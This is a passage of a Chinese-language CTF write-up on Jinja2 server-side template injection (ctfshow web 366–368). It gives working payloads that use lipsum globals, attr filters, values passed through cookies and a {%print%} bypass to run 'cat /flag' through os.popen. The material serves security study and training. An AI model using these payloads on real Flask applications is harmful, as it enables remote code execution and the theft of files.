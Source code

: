 - 也就是括号内的东西是前面的属性

#### payload

- 根据前面的payload

```python
?name={{x|attr(request.cookies.a)|attr(request.cookies.b)|attr(request.cookies.c)(request.cookies.d)|attr(eval(request.cookies.e))}}
a=__init__&b=__globals__&c=__getitem__&d=__builtins__&e=__import__('os').popen('cat /f*').read()
```

### 方法3：lipsum

- lipsum.__globals__['__builtins__']
- lipsum的globals中有os，有builtins

```python
name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}
传参：a=__globals__;b=cat /f*
```

:::danger

- 这里我不明白为什么一定要用attr，不能用`.`
- 且要注意最前面有括号，把lipsum的东西当成一个整体
  :::

## web 367(get)

:::info

- 注意不能直接`(lipsum|attr(request.cookies.a)).(request.cookies.b)`，这样会报错，要用**get**
- **不理解为什么也不能用attr**
  :::

```python
(lipsum|attr(request.cookies.a)).get(request.cookies.b).popen(request.cookies.c).read()

a=__globals__&b=os&c=cat /flag
```

## web 368(过滤{{)

### 方法1：{%%}

:::info

- 用`**{%%}**`绕过
  :::

```python
{%print((lipsum|attr(request.cookies.a)).get(request.cookies.b).popen(request.cookies.c).read())%}

a=__globals__&b=os&c=cat /flag
```
